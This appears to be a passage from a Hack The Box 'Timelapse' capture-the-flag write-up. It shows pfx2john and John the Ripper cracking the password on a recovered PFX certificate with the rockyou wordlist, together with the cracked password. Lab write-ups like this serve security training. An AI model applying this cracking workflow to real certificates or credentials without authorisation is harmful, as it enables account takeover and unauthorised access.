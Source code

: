 ![](media/Pasted%20image%2020250506221753.png)


```bash
┌──(kali㉿kali)-[~/HTB/Timelapse]
└─$ pfx2john legacyy_dev_auth.pfx > hash.txt


┌──(kali㉿kali)-[~/HTB/Timelapse]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 512/512 AVX512BW 16x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:00:23 DONE (2025-05-06 10:19) 0.04182g/s 135162p/s 135162c/s 135162C/s thumper1990..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
